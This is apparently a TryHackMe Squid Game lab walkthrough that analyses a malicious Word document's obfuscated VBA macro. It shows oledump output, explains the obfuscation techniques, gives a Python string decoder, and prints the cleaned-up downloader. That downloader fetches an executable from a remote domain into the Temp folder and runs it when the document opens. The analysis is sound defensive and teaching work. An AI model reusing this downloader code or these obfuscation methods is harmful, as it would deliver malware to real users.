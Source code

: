 # Try Hack Me - Squid Game, attacker 4

This is part 4 of a [5-part series of walkthroughs](../squid-game.md) for Try Hack Me's Squid Game room.

## 1. Identifying macros - oleid, oledump

Following on from the previous attackers, we use [oleid](https://github.com/decalage2/oletools/wiki/oleid) to confirm that sample confirms likely malicious VBA macros : 

```console

```

and [oledump](https://blog.didierstevens.com/programs/oledump-py/) to identify which of the document's streams contain macros :

```console
remnux@remnux:~$ oledump.py attacker4.doc 
...snip...
  6:        41 'Macros/PROJECTwm'
  7: M   17216 'Macros/VBA/ThisDocument'
  8:     10917 'Macros/VBA/_VBA_PROJECT'
...snip...
```

and oledump again to extract the document's only macro from stream 7 (`oledump.py -s 7 -v attacker4.doc`). The result is 283 lines of heavily obfuscated VBA : 

```vb
Public Function Hextostring(ByVal LIfBaRNaq As String) As String
Dim bOYvqTVCQck As String
Dim FNOMR As String
Dim wDhutJNQ As Long
For wDhutJNQ = 1 To Len(LIfBaRNaq) Step 2
If 128918 = 128918 + 1 Then End
If 3786 < 26 Then
If 751819 = 751819 + 1 Then End
If 3264 < 68 Then
...snip...
```

ViperMonkey goes a long way in working out what this code actually does (and in answering the task questions), but where's the fun in that? This is also a nice exercise in manually approaching something that initially looks pretty monstrous, but quickly becomes much more approachable.

## 2. Manual deobfuscation

The code uses four basic techniques to obfuscate what is actually going on :

1. One-liner If ... Then End statements with impossible conditions (e.g. `If 128918 = 128918 + 1 Then End`)
2. Multi-line If ... Then statements with impossible conditions (e.g. `If 3264 < 68 Then`)
3. GoTo statements that jump to a line label on the very next line, effectively doing nothing (e.g. `GoTo zlbrmdtmprviueydvnhzltntlvfofmkntrjatbzfuxavnqxeasqawcqlnddunpozvflosmyvmvfrlwvkcw:zlbrmdtmprviueydvnhzltntlvfofmkntrjatbzfuxavnqxeasqawcqlnddunpozvflosmyvmvfrlwvkcw:`)
4. Random variables names (eg `Dim bOYvqTVCQck As String`)

The first step of manual deobfuscation is simply to delete all the code that does nothing - in this case, the impossible If-statements and the useless GoTo statements. We can then attempt to rename variables if we're confident about what they might be doing. At the end of this process, we've managed to reduce 283 lines to 67 lines. [I've included the cleaned up version of the code](./attacker4clean.vbs), and it is this version that we will use for analysis.

## 3. Manual analysis

Given that this is the only macro discovered in the document, we can safely assume that the entry point is the AutoOpen() subprocess. In this case, AutoOpen immediately calls the "IOWZJGNTSGK" function :

```vb
Sub IOWZJGNTSGK()
    gGHBkj = XORI(Hextostring("1C3B2404757F5B2826593D3F00277E102A7F1E3C7F16263E5A2A2811"), Hextostring("744F50"))
    ZUWSBYDOTWV gGHBkj, Environ(XORI(Hextostring("3E200501"), Hextostring("6A654851714A64"))) & XORI(Hextostring("11371B0A00123918220E001668143516"), Hextostring("4D734243414671"))
End Sub
```

The first line of this function calls two other functions defined in the macro - Hextostring and XORI (these are the original names taken from the obfuscated version). 
After some cursory analysis, we can conclude that Hextostring takes one string argument, breaks it into character pairs, converts the resulting pair into a hexadecimal number, and uses this hexadecimal number as a character code to build an ASCII string (the docs for various VBA builtins - [Asc](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/asc-function), [Mid](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/mid-function), [Val](https://docs.microsoft.com/en-us/office/vba/Language/Reference/User-Interface-Help/val-function), etc. - are useful here). XORI appears to behave as we might expect - it takes two string arguments and XORS them.

To decode the strings used in the code, we can simply rewrite these functions :

```python
def hextostring(hx: str) -> bytes:
    hex_chars = [hx[i:i+2] for i in range(0, len(hx), 2)]
    return b''.join([chr(int(hc, 16)).encode() for hc in hex_chars])

def xor(cipher: bytes, key: bytes) -> None:
    return ''.join([chr(int(b) ^ int(key[i % len(key)])) for i,b in enumerate(cipher)])

cipher = ""  # add ciphertext
key = ""  # add key

print(xor(hextostring(cipher), hextostring(key)))
```

This lets us clean up the IOWZJGNTSGK function even further :

```vb
Sub IOWZJGNTSGK()
    domain = "hxxp://gv-roth.de/js/bin.exe"
    ZUWSBYDOTWV domain, Environ("TEMP") & "\DYIATHUQLCW.exe"
End Sub
```

So the discovered domain and a file location ("Environ("TEMP") resolves to %USER%\AppData\Local\Temp in Windows 10; the "&" operator is used for string concatenation) are passed to the function ZUWSBYDOTWV. Using the same technique of decoding the strings passed to Hextostring and XORI, we can clean up ZUWSBYDOTWV :

```vb
Function ZUWSBYDOTWV(ByVal domain As String, ByVal executableFileLocation As String) As Boolean
    Dim xmlHttpClient As Object, fileHandle As Long, responseBody() As Byte

    Set xmlHttpClient = CreateObject("MSXML2.XMLHTTP")

    xmlHttpClient.Open "GET", domain, False
    xmlHttpClient.Send "gVHBnk"

    responseBody = xmlHttpClient.responseBody

    fileHandle = FreeFile
    Open executableFileLocation For Binary As #fileHandle
    Put #fileHandle, , responseBody
    Close #fileHandle

    Set hBBkbmop6VHJL = CreateObject("Shell.Application"))
    hBBkbmop6VHJL.Open Environ("TEMP") & "\DYIATHUQLCW.exe"

End Function
```

The ZUWSBYDOTWV function begins by initialising a [XmlHttp client](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms759148(v=vs.85)) to handle web requests. It then uses this client to prepares and sends a GET request to the attacker-controlled domain discovered in the IOWZJGNTSGK function. It then writes the body of the response to this request to the same file location discovered in IOWZJGNTSGK(%USER%\AppData\Local\Temp\DYIATHUQLCW.exe) before executing the downloaded executable with a call to "Shell.Application.Open".
